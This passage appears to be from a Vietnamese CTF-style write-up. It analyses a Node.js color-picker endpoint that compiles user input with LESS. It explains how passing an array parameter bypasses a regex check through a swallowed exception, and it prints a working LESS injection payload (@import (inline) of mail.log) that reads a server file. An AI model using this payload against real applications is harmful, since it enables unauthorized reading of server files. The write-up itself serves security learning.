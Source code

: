 ```js

  var css = "";

  for (var key in colorDict){

    try{

      if(!colorDict[key].match(/^#[\w\d]{6}$/)) return false;

    } 
    catch(error){
      console.log(error)
    }

    css += `@${key}:` + colorDict[key] + ";";

  }

  css = css + "body{ background-color: @bgcolor; color: @color; }";

  return css;
}
```
Ở đây nó sẽ lấy cặp key của chúng ta sau đó đưa vào try catch kiểm tra regex phải bắt đầu dấu # và nếu khác regex sẽ báo false và sau đó ngược lại nó đưa vào css  với key chúng ta chọn và sau khi đó <br>
```js
 if (css == false) return res.sendStatus(500);

  less.render(css.toString(), (error, output) => {
  
    if(error){
      return res.send(`Less Compile Error`);
    }

    fs.writeFileSync('./static/image.css', output['css']);
    
    return res.send(`ColorPicker Done`);
  
  })
```
nó sẽ ghi file của chúng ta ra /static/image.css sau đó chúng ta truy cập lấy được màu sắc với chúng ta pick ở đây đặc biệt tôi phát hiện nó sử dụng <b>less.render</b> ra biên dịch và sau khi tìm kiếm tôi phát hiện có lỗ hổng css injection từ less bằng cách đó chúng ta cần tìm cách đưa vào shell để đọc file mail.log đúng ko vậy bằng cách nào chúng ta có thể chèn vào ở phần màu sắc <br>
```note
colorPicker làm: css += \@${key}:` + colorDict[key] + ";"`.
Trước đó gọi colorDict[key].match(...) trong try { ... } catch(error) {}.
Nếu colorDict[key] là mảng (ví dụ bgColor[]=...), thì match không tồn tại → gọi sẽ ném lỗi → bị catch nuốt đi → không trả về false → hàm tiếp tục chèn nguyên giá trị mảng (dùng toString() → nối các phần bằng ,) vào CSS.
```
Bằng cách đó tôi truyền 1 kí tự đặc biệt bằng cách gửi 1 phần tử mảng kết quả trong LESS trở thành: <br>
```note
bgColor[] = ;@import (inline) "mail.log";
fontColor = #ffffff
```
Khi qua colorPicker, chuỗi CSS tạo ra sẽ như: <br>
```note
@bgcolor:#000000;@import (inline) "mail.log";;
@color:#ffffff;
body{ background-color: @bgcolor; color: @color; }
```